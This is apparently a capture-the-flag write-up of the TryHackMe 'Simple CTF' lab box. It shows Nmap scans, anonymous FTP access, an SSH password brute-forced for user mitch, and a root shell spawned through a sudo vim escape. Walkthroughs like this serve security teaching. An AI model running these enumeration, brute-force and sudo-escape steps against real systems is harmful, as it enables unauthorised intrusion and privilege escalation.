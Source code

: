 # THM - Simple CTF

#### Ip: 10.10.2.89
#### Name: Simple CTF
#### Rating: Easy

----------------------------------------------------------------------

Simple.png

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.89
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:38 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 13.70 seconds
```
Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.2.89 -p 21,80,2222
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:40 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.61.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.34 seconds

```

Looks like anonymous access to FTP is enabled, so lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ftp 10.10.2.89                         
Connected to 10.10.2.89.
220 (vsFTPd 3.0.3)
Name (10.10.2.89:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -la
229 Entering Extended Passive Mode (|||41102|)
ftp: Can't connect to `10.10.2.89:41102': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |********************************************************************************|   166      692.77 KiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.30 KiB/s)
ftp> bye
221 Goodbye.
```

Ok cool, now we have a username Mitch, and know that there are some weak passwords being used.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Lets check out HTTP. Navigating to the site we find the default Apache "It Works" page. 

page.png

Lets kick off some directory fuzzing to try and find something interesting.

simplecms.png

Navigating to http://10.10.2.89/simple/ we find a page using CMS Made Simple. If we poke around a bit we can see the version number in the lower left corner:

version.png

Turning to Google we can quickly find a publically available exploit for this version.

https://www.exploit-db.com/exploits/46635

Looks like this version is vulnerable to SQL injection which can be used to crack passwords. Lets try it out!

### Exploitation

edb.png

Note: While I believe this was the intended path, the script above was giving me lots of trouble, and took tons of troubleshooting, so in the end I decided to brute force SSH with mitch as a username. I chose to do this because based on the FTP note discovered earlier, I knew the password had to be relatively common, and easily crackable. I'll have to revisit the ExploitDB script and figure out why it wasn't working for me at another time. 

Nice! Hydra was able to discover Mitch's password. Lets use these credentials to login to ssh as user Mitch:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ssh mitch@10.10.2.89 -p 2222      
The authenticity of host '[10.10.2.89]:2222 ([10.10.2.89]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.2.89]:2222' (ED25519) to the list of known hosts.
mitch@10.10.2.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
$ pwd
/home/mitch
```

From here we can go ahead and grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` to see if Mitch can run anything as root we find:

```text
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Nice! Lets head over to https://gtfobins.github.io/ and see if we can find anything on Vim:

gtfobins.png

Looks like smooth sailing, lets go ahead and drop that command in the terminal:

```text
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Lets grab that final root.txt flag:

root_flag.png

That's that! Thanks for following along,

-Ryan

------------------------------------------------------------------------------
